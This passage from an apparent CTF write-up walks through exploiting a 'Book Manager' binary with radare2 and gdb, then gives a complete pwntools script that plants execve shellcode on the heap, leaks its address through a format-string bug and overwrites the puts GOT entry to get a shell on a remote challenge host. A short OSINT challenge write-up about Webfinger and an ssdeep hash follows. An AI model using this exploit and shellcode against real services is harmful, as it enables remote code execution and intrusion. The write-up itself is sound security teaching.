that's executed in sym.menu so that our exploit is run when the menu is displayed, or after every command.
[0x0804876b]> s sym.menu
[0x08048b0d]> pdf
┌ (fcn) sym.menu 383
│ sym.menu ();
│ ; var int local_14h @ ebp-0x14
│ ; var int local_10h @ ebp-0x10
│ ; var int local_ch @ ebp-0xc
│ ; CALL XREF from 0x08048c2e (sym.main)
│ 0x08048b0d 55 push ebp
│ 0x08048b0e 89e5 mov ebp, esp
│ 0x08048b10 83ec18 sub esp, 0x18
│ 0x08048b13 65a114000000 mov eax, dword gs:[0x14] ; [0x14:4]=1
│ 0x08048b19 8945f4 mov dword [ebp - local_ch], eax
│ 0x08048b1c 31c0 xor eax, eax
│ 0x08048b1e c745f0000000. mov dword [ebp - local_10h], 0
│ ┌─< 0x08048b25 e9d5000000 jmp loc.08048bff
│ │ 0x08048b2a 83ec0c sub esp, 0xc
│ │ 0x08048b2d 68b38d0408 push str.Book_Manager: ; str.Book_Manager: ; "Book Manager:" @ 0x8048db3 ; const char * s
│ │ 0x08048b32 e819faffff call sym.imp.puts ; int puts(const char *s)
│ │ 0x08048b37 83c410 add esp, 0x10
│ │ 0x08048b3a 83ec0c sub esp, 0xc
│ │ 0x08048b3d 68c18d0408 push str._t_1__Insert ; str._t_1__Insert ; str._t_1__Insert ; const char * s
│ │ 0x08048b42 e809faffff call sym.imp.puts ; int puts(const char *s)
│ │ 0x08048b47 83c410 add esp, 0x10
│ │ 0x08048b4a 83ec0c sub esp, 0xc
│ │ 0x08048b4d 68cd8d0408 push str._t_2__List ; str._t_2__List ; str._t_2__List ; const char * s
│ │ 0x08048b52 e8f9f9ffff call sym.imp.puts ; int puts(const char *s)
│ │ 0x08048b57 83c410 add esp, 0x10
│ │ 0x08048b5a 83ec0c sub esp, 0xc
│ │ 0x08048b5d 68d78d0408 push str._t_3__Search ; str._t_3__Search ; str._t_3__Search ; const char * s
│ │ 0x08048b62 e8e9f9ffff call sym.imp.puts ; int puts(const char *s)
│ │ 0x08048b67 83c410 add esp, 0x10
│ │ 0x08048b6a 83ec0c sub esp, 0xc
│ │ 0x08048b6d 68e38d0408 push str._t_4__Delete ; str._t_4__Delete ; str._t_4__Delete ; const char * s
│ │ 0x08048b72 e8d9f9ffff call sym.imp.puts ; int puts(const char *s)
│ │ 0x08048b77 83c410 add esp, 0x10
│ │ 0x08048b7a 83ec0c sub esp, 0xc
│ │ 0x08048b7d 68ef8d0408 push str._t_5__Exit ; str._t_5__Exit ; str._t_5__Exit ; const char * s
│ │ 0x08048b82 e8c9f9ffff call sym.imp.puts ; int puts(const char *s)
│ │ 0x08048b87 83c410 add esp, 0x10
│ │ 0x08048b8a 83ec0c sub esp, 0xc
│ │ 0x08048b8d 6a0a push 0xa ; int c
│ │ 0x08048b8f e8ecf9ffff call sym.imp.putchar ; int putchar(int c)
│ │ 0x08048b94 83c410 add esp, 0x10
│ │ 0x08048b97 83ec0c sub esp, 0xc
│ │ 0x08048b9a 68f98d0408 push str.Enter_choice: ; str.Enter_choice: ; "Enter choice: " @ 0x8048df9
│ │ 0x08048b9f e84cf9ffff call sym.imp.printf ; int printf(const char *format)
│ │ 0x08048ba4 83c410 add esp, 0x10
│ │ 0x08048ba7 83ec08 sub esp, 8
│ │ 0x08048baa 8d45ec lea eax, [ebp - local_14h]
│ │ 0x08048bad 50 push eax
│ │ 0x08048bae 68f28c0408 push 0x8048cf2 ; const char * format
│ │ 0x08048bb3 e8d8f9ffff call sym.imp.__isoc99_scanf; int scanf(const char *format)
│ │ 0x08048bb8 83c410 add esp, 0x10
│ │ 0x08048bbb 8b45ec mov eax, dword [ebp - local_14h]
│ │ 0x08048bbe 83f806 cmp eax, 6
│ ┌──< 0x08048bc1 773c ja loc.08048bff
│ ││ 0x08048bc3 8b0485088e04. mov eax, dword [eax*4 + 0x8048e08] ; [0x8048e08:4]=0x8048bff loc.08048bff
└ ││ 0x08048bca ffe0 jmp eax
├ loc.08048bff 30
│ loc.08048bff ();
│ ↑ ; var int local_14h @ ebp-0x14
│ ↑ ; var int local_10h @ ebp-0x10
│ ↑ ; var int local_ch @ ebp-0xc
│ ↑ 0x08048bff 837df000 cmp dword [ebp - local_10h], 0
│ └─< 0x08048c03 0f8421ffffff je 0x8048b2a ; sym.menu+0x1d
│ 0x08048c09 90 nop
│ 0x08048c0a 8b45f4 mov eax, dword [ebp - local_ch]
│ 0x08048c0d 653305140000. xor eax, dword gs:[0x14]
│ ┌─< 0x08048c14 7405 je 0x8048c1b
│ │ 0x08048c16 e815f9ffff call sym.imp.__stack_chk_failvoid)
│ └─> 0x08048c1b c9 leave
└ 0x08048c1c c3 ret
Radare2 denotes imported functions with sym.imp. sym.imp.puts seems as good as any to overwrite. Lets figure out where the GOT entry for this is.
[0x0804876b]> pdf @ sym.imp.puts
┌ (fcn) sym.imp.puts 6
│ sym.imp.puts ();
└ 0x08048550 ff252cb00408 jmp dword [reloc.puts_44] ; "V...f...v..............." @ 0x804b02c
[0x0804876b]> pv @ reloc.puts_44
0x08048556
[0x0804876b]> pf.obj.value @ reloc.puts_44
0x0804b02c = (octal) 01001102526
0x0804b030 = 0x66
Radare2 is telling us that sym.imp.puts jumps to the location reloc.puts_44 that contains the value 0x08048556
The address of reloc.puts_44 is 0x0804b02c. If we overwrite the value at this address with a pointer to some shellcode, we will have completed the challenge.
So, how do we do this and where will this shellcode come from? If book names are saved on the heap, we can write shellcode to the heap, and redirect execution to that.
Let's look at the disassembly for sym.insert to figure out how books are saved.
[0x0804876b]> s sym.insert
[0x080486bb]> pdf
┌ (fcn) sym.insert 176
│ sym.insert ();
│ ; var int local_ch @ ebp-0xc
│ ; CALL XREF from 0x08048bcc (unk)
│ 0x080486bb 55 push ebp
│ 0x080486bc 89e5 mov ebp, esp
│ 0x080486be 83ec18 sub esp, 0x18
│ 0x080486c1 83ec0c sub esp, 0xc
│ 0x080486c4 6809040000 push 0x409 ; size_t size
│ 0x080486c9 e872feffff call sym.imp.malloc ; void *malloc(size_t size)
│ 0x080486ce 83c410 add esp, 0x10
│ 0x080486d1 8945f4 mov dword [ebp - local_ch], eax
│ 0x080486d4 837df400 cmp dword [ebp - local_ch], 0
│ ┌─< 0x080486d8 0f848a000000 je 0x8048768
│ │ 0x080486de 83ec0c sub esp, 0xc
│ │ 0x080486e1 68d08c0408 push str.Enter_book_name: ; str.Enter_book_name: ; "Enter book name: " @ 0x8048cd0
│ │ 0x080486e6 e805feffff call sym.imp.printf ; int printf(const char *format)
│ │ 0x080486eb 83c410 add esp, 0x10
│ │ 0x080486ee a14cb00408 mov eax, dword [obj.stdout] ; [0x804b04c:4]=0x3a434347 ; LEA obj.stdout
│ │ 0x080486f3 83ec0c sub esp, 0xc
│ │ 0x080486f6 50 push eax ; FILE *stream
│ │ 0x080486f7 e804feffff call sym.imp.fflush ; int fflush(FILE *stream)
│ │ 0x080486fc 83c410 add esp, 0x10
│ │ 0x080486ff 8b45f4 mov eax, dword [ebp - local_ch]
│ │ 0x08048702 83ec04 sub esp, 4
│ │ 0x08048705 6800040000 push 0x400
│ │ 0x0804870a 50 push eax ; size_t nbyte
│ │ 0x0804870b 6a00 push 0 ; int fildes
│ │ 0x0804870d e8cefdffff call sym.imp.read ; ssize_t read(int fildes, void *buf, size_t nbyte)
│ │ 0x08048712 83c410 add esp, 0x10
│ │ 0x08048715 83ec0c sub esp, 0xc
│ │ 0x08048718 68e28c0408 push 0x8048ce2 ; const char * format
│ │ 0x0804871d e8cefdffff call sym.imp.printf ; int printf(const char *format)
│ │ 0x08048722 83c410 add esp, 0x10
│ │ 0x08048725 a14cb00408 mov eax, dword [obj.stdout] ; [0x804b04c:4]=0x3a434347 ; LEA obj.stdout
│ │ 0x0804872a 83ec0c sub esp, 0xc
│ │ 0x0804872d 50 push eax ; FILE *stream
│ │ 0x0804872e e8cdfdffff call sym.imp.fflush ; int fflush(FILE *stream)
│ │ 0x08048733 83c410 add esp, 0x10
│ │ 0x08048736 8b45f4 mov eax, dword [ebp - local_ch]
│ │ 0x08048739 0502040000 add eax, 0x402
│ │ 0x0804873e 83ec08 sub esp, 8
│ │ 0x08048741 50 push eax
│ │ 0x08048742 68f28c0408 push 0x8048cf2 ; const char * format
│ │ 0x08048747 e844feffff call sym.imp.__isoc99_scanf; int scanf(const char *format)
│ │ 0x0804874c 83c410 add esp, 0x10
│ │ 0x0804874f 8b1554b00408 mov edx, dword [obj.book_list] ; [0x804b054:4]=0x75746e75 ; LEA obj.book_list
│ │ 0x08048755 8b45f4 mov eax, dword [ebp - local_ch]
│ │ 0x08048758 899004040000 mov dword [eax + 0x404], edx
│ │ 0x0804875e 8b45f4 mov eax, dword [ebp - local_ch]
│ │ 0x08048761 a354b00408 mov dword [obj.book_list], eax ; [0x804b054:4]=0x75746e75 ; LEA obj.book_list
│ ┌──< 0x08048766 eb01 jmp 0x8048769
│ │└─> 0x08048768 90 nop
│ │ ; JMP XREF from 0x08048766 (sym.insert)
│ └──> 0x08048769 c9 leave
└ 0x0804876a c3 ret
Let's step through this to understand what's happening.
push 0x409 ; size_t size
call sym.imp.malloc ; void *malloc(size_t size)
add esp, 0x10
mov dword [ebp - local_ch], eax
cmp dword [ebp - local_ch], 0
The program is allocating space on the heap and putting the address in eax.
This address is then saved on the stack at a position radare2 is calling local_ch.
push str.Enter_book_name: ; str.Enter_book_name: ; "Enter book name: " @ 0x8048cd0
call sym.imp.printf ; int printf(const char *format)
add esp, 0x10
mov eax, dword [obj.stdout] ; [0x804b04c:4]=0x3a434347 ; LEA obj.stdout
sub esp, 0xc
push eax ; FILE *stream
call sym.imp.fflush ; int fflush(FILE *stream)
add esp, 0x10
mov eax, dword [ebp - local_ch]
sub esp, 4
push 0x400
push eax ; size_t nbyte
push 0 ; int fildes
call sym.imp.read ; ssize_t read(int fildes, void *buf, size_t nbyte)
The program prints "Enter book name: ". Then the address of the heap that the program saved earlier is loaded back into eax and then
passed as a parameter to sym.imp.read. This means that the program name is written to the heap just as we had hoped! We will be able to insert our shellcode here!
Now we just need to leak the heap address using the format string vulnerability that we discovered earlier. To figure out how to do this, lets load this program into gdb
(I'm using the the fantastic peda gdb plugin).
Let's set a breakpoint in the insert method where the heap address is moved into local_ch and then another one in the search method right before the vulnerable
printf so that we can examine the stack at this point and figure out where the heap address is at this point.
$ gdb level1.bin
gdb> b *0x080486d1
Breakpoint 1 at 0x80486d1
gdb> b *0x080487f5
Breakpoint 2 at 0x80487f5
Now let's run the program.
gdb> r
Starting program: /home/samthomas/Cornell/CHC/nullcon/exp1/level1
Book Manager:
[1] Insert
[2] List
[3] Search
[4] Delete
[5] Exit
Enter choice: 1
[----------------------------------registers-----------------------------------]
EAX: 0x804c818 --> 0x0
EBX: 0x0
ECX: 0xf7f9c780 --> 0x0
EDX: 0x804c818 --> 0x0
ESI: 0xf7f9c000 --> 0x1b1db0
EDI: 0xf7f9c000 --> 0x1b1db0
EBP: 0xffffce38 --> 0xffffce58 --> 0xffffce68 --> 0x0
ESP: 0xffffce20 --> 0xf7f9c000 --> 0x1b1db0
EIP: 0x80486d1 (: mov DWORD PTR [ebp-0xc],eax)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x80486c4 : push 0x409
0x80486c9 : call 0x8048540
0x80486ce : add esp,0x10
=> 0x80486d1 : mov DWORD PTR [ebp-0xc],eax
0x80486d4 : cmp DWORD PTR [ebp-0xc],0x0
0x80486d8 : je 0x8048768
0x80486de : sub esp,0xc
0x80486e1 : push 0x8048cd0
[------------------------------------stack-------------------------------------]
0000| 0xffffce20 --> 0xf7f9c000 --> 0x1b1db0
0004| 0xffffce24 --> 0xf7f9c000 --> 0x1b1db0
0008| 0xffffce28 --> 0xffffce58 --> 0xffffce68 --> 0x0
0012| 0xffffce2c --> 0x8048bb8 (: add esp,0x10)
0016| 0xffffce30 --> 0x8048cf2 --> 0x42006425 ('%d')
0020| 0xffffce34 --> 0xffffce44 --> 0x1
0024| 0xffffce38 --> 0xffffce58 --> 0xffffce68 --> 0x0
0028| 0xffffce3c --> 0x8048bd1 (: jmp 0x8048bff )
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Breakpoint 1, 0x080486d1 in insert ()
Notice that the value in eax is 0x804c818. Now lets see if we can find this on the stack in the search method. Continue execution of the program.
gdb$ c
Continuing.
Enter book name: AAAABBBBCCCCDDDD
Enter book id: 0
Book Manager:
[1] Insert
[2] List
[3] Search
[4] Delete
[5] Exit
Enter choice: 3
Search by book_id or name (name:abc, book_id:123)
Enter query: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[----------------------------------registers-----------------------------------]
EAX: 0x25 ('%')
EBX: 0x0
ECX: 0xffffca2c ('A' , "\n")
EDX: 0x400
ESI: 0xf7f9c000 --> 0x1b1db0
EDI: 0xf7f9c000 --> 0x1b1db0
EBP: 0xffffce38 --> 0xffffce58 --> 0xffffce68 --> 0x0
ESP: 0xffffca00 --> 0x8048d48 ("Searching with: ")
EIP: 0x80487f5 (: call 0x80484f0 )
EFLAGS: 0x292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x80487ea : add esp,0x10
0x80487ed : sub esp,0xc
0x80487f0 : push 0x8048d48
=> 0x80487f5 : call 0x80484f0
0x80487fa : add esp,0x10
0x80487fd : sub esp,0xc
0x8048800 : lea eax,[ebp-0x40c]
0x8048806 : push eax
Guessed arguments:
arg[0]: 0x8048d48 ("Searching with: ")
[------------------------------------stack-------------------------------------]
0000| 0xffffca00 --> 0x8048d48 ("Searching with: ")
0004| 0xffffca04 --> 0xffffca2c ('A' , "\n")
0008| 0xffffca08 --> 0x400
0012| 0xffffca0c --> 0xf7ffd53c --> 0xf7fd9000 --> 0x464c457f
0016| 0xffffca10 --> 0x42a5a955
0020| 0xffffca14 --> 0xf7fe253d (add esp,0x20)
0024| 0xffffca18 --> 0x1
0028| 0xffffca1c --> 0x804c818 ("AAAABBBBCCCCDDDD\n")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Breakpoint 2, 0x080487f5 in search ()
Hey! There's the address of the heap! It's the 8th address on the stack. However, the top address will be popped off when printf is executed.
So if we leak the 7th value of the stack, we will have the address of our inserted shellcode.
The last thing that we need is the offset of our input string on the stack.
gdb$ x/24wx $esp
0xffffca00: 0x08048d48 0xffffca2c 0x00000400 0xf7ffd53c
0xffffca10: 0x42a5a955 0xf7fe253d 0x00000001 0x0804c818
0xffffca20: 0x00000000 0x0000000e 0xf7fd94c4 0x41414141
0xffffca30: 0x41414141 0x41414141 0x41414141 0x41414141
0xffffca40: 0x41414141 0x41414141 0x41414141 0x41414141
0xffffca50: 0x0000000a 0xf7fd94c4 0xf7fd93c4 0x02152d4a
The 12th value of the stack is where our input string begins (0x41 = 'A'). For the same reason as above, the input string offset is actually 11.
We are almost ready to write our exploit! Let's quickly go over our plan. We will insert some shellcode as the name of a book.
Then, we will use the format string vulnerability to leak the address of the heap. Then, we will use the format string specifier %n to replace
the GOT entry for puts with the leaked address of the heap. This will execute the shellcode and we will have pwned the system. Let's write a python script to do this!
from pwn import *
import sys
def inject_shellcode(p):
shellcode = "\x90"*8 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
p.sendline("1")
p.sendline(shellcode)
p.recvuntil("Enter book id: ")
p.sendline("1")
log.info("Shellcode Injected")
def leak_heap_address(p):
p.sendline("3")
p.recvuntil("Enter query: ")
p.sendline("%7$08x")
heap_addr = p.recvline()[16:-1]
log.info("Leaked Heap Address: 0x{}".format(heap_addr))
return heap_addr
def pwn(p, addr):
p.sendline("3")
p.recvuntil("Enter query: ")
got = 0x0804b02c
payload = fmtstr_payload(11, {got : int(addr, 16)})
log.info("Using Fmt String: " + payload)
p.sendline(payload)
log.info("Pwned System")
p.interactive()
def exploit(p):
inject_shellcode(p)
heap_addr = leak_heap_address(p)
pwn(p, heap_addr)
p.recv()
if __name__ == "__main__":
if len(sys.argv) > 1:
child = remote("34.198.96.6", 9001)
pause()
exploit(child)
else:
child = process(["level1"])
pause()
exploit(child)
I found some suitable shellcode at shell-storm.org. I'm using the pwn library for python which provides a lot of nice convenience functions including format string payload generation.
Running this script gives us access to the system. Type cat flag.txt to get the flag.
Flag: flag{1nF0L34K4Th3W1n}
OSINT200
Posted on February 16, 2017 at 12:10 AM
IP: http://54.89.146.217/ and osint200.png
{kind=link}
The IP was the same as another challenge and displayed a plaintext message unrelated to the challenge. The linked image contained the text "I have a request, but it's not for the football club" and a pattern on the side that could be read sideways as "7033." The image was referencing RFC 7033, Webfinger. Based on that specification, we found the next clue by navigating to this URL:
http://54.89.146.217//.well-known/webfinger?resource=That URL yielded the text:
ssdeep(v)
flag{ssdeep}Googling the hash yielded a single result: ViCheck.ca - Malware Hash Index - https://vicheck.ca/report.php with the description "Composite Document File V2 Document, Little Endian, Os. Virus Report Embedded Executable. File: crash.txt. MD5: 523bd1e47b08cfd4d92cddcbff8e541d." No cache was available and the visiting the page did not have the relevant hash anymore. On that page, however, you could determine that the site looked up malware samples by the MD5. Example:
https://vicheck.ca/md5query.php?hash=581d9462d50657d929b656ba5f423fc2Substituting in the Hash from the webfinger page yielded this page which shows the SSDEEP hash of the original sample. Placing that inside the flag{} yielded the correct answer.